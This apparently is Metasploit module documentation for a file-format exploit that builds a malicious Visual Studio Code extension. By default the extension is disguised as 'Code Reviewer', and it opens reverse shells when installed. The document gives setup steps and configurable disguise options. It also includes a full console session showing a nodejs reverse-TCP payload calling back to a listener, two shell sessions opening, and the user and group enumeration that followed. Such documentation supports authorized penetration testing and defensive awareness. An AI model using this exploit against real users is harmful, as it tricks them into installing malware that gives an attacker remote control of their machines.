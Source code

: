 ## Vulnerable Application

Creates a vsix file which can be installed in Visual Studio Code as an extension.
At activation/install, the extension will execute a shell or two.

Tested against VSCode 1.87.2 on Ubuntu 22.04

## Verification Steps

1. Install VSCode
1. Start msfconsole
1. Do: `use exploit/multi/fileformat/visual_studio_vsix_exec`
1. Do: `set lhost [IP]`
1. Do: `run`
1. In Visual Studio, click the extensions button on the left (4 boxes with the top
right one offset)
1. Click the 3 dots in the new window, select `Install from VSIX...`.
1. Click the extension
1. You should get a shell or two

## Options

### NAME

The name of the extension. Defaults to `Code Reviewer`

### DESCRIPTION

The description of the extension. Defaults to `Reviews code`

### VERSION

The version of the extension. Defaults to `0.0.1`

### README

The readme contents for the extension. Defaults to ``

## Scenarios

### VSCode 1.87.2 on Ubuntu 22.04

```
msf > use exploit/multi/fileformat/visual_studio_vsix_exec
[*] Using configured payload nodejs/shell_reverse_tcp
msf exploit(multi/fileformat/visual_studio_vsix_exec) > set lport 5989
lport => 5989
msf exploit(multi/fileformat/visual_studio_vsix_exec) > set lhost 111.111.11.111
lhost => 111.111.11.111
msf exploit(multi/fileformat/visual_studio_vsix_exec) > exploit

[*] Started reverse TCP handler on 111.111.11.111:5989 
[+] extension.vsix stored at /root/.msf4/local/extension.vsix
[*] Waiting for shell
[*] Command shell session 1 opened (111.111.11.111:5989 -> 111.111.11.111:33070) at 2024-03-22 17:22:16 +0000

[*] Command shell session 2 opened (111.111.11.111:5989 -> 111.111.11.111:33080) at 2024-03-22 17:22:16 +0000
whoami
h00die
id
uid=1000(h00die) gid=1000(h00die) groups=1000(h00die),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),119(docker)
code -v   
1.87.2
863d2581ecda6849923a2118d93a088b0745d9d6
x64
```
